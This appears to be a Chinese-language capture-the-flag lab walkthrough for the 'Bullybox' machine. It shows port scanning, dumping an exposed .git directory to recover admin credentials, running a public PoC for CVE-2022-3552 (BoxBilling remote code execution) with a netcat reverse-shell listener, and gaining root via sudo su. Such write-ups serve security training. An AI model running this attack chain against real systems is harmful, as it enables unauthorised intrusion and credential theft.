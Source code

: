 ```yaml
---
description: Easy - Linux / BoxBilling 4.22.1.5 / CVE-2022-3552 / sudo su提权
---
```


# ✔️ Bullybox

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和80

```bash
nmap -sC -sV -p- -oA bullybox 192.168.149.27 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将域名添加到hosts文件中：

```bash
echo "192.168.149.27   bullybox.local" | tee -a /etc/hosts
```

* 检查/robots.txt文件，发现一些隐藏目录，依次查看没有任何收获：

<figure><img src="../../.gitbook/assets/2 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在80端口的登录界面进行注册：

```
- test@test.com
- fiii : Test123456
```

<figure><img src="../../.gitbook/assets/3 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 登录后并没有任何发现，只得知当前系统使用的是boxbilling程序：

<figure><img src="../../.gitbook/assets/4 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 枚举80端口上的隐藏文件/目录，这里发现一些/.git目录：

```bash
gobuster dir -u http://bullybox.local -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

<figure><img src="../../.gitbook/assets/5 (2).png" alt=""><figcaption></figcaption></figure>

* 使用git-dumper提取目标网站的git中的内容：

```bash
git-dumper http://bullybox.local/.git .
```

<figure><img src="../../.gitbook/assets/6 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 .png" alt=""><figcaption></figcaption></figure>

* 在提取出来的文件中，**bb-config.php**中发现管理员凭证：

```
- **admin ：Playing-Unstylish7-Provided**
- admin@bullybox.local
```

<figure><img src="../../.gitbook/assets/8 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用该有效凭证进入admin的管理界面后，获取到当前运行的软件BoxBilling及其版本号：**BoxBilling 4.22.1.5**

<figure><img src="../../.gitbook/assets/9 .png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据应用及其版本号，查询到公开漏洞：CVE-2022-3552
* BoxBilling<=4.22.1.5 - Remote Code Execution

<figure><img src="../../.gitbook/assets/13 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* [https://www.exploit-db.com/exploits/51108](https://www.exploit-db.com/exploits/51108)

<figure><img src="../../.gitbook/assets/12 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 在GitHub上找到了相关PoC：

<figure><img src="../../.gitbook/assets/17 (1) (1).png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 修改脚本并利用：

```bash
python3 cve-2022-3552.py -d http://bullybox.local/ -u 'admin@bullybox.local' -p 'Playing-Unstylish7-Provided'

nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/14 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### ROOT

* 直接切换至root用户：

```bash
sudo su
```

<figure><img src="../../.gitbook/assets/16 (1) (1).png" alt=""><figcaption></figcaption></figure>
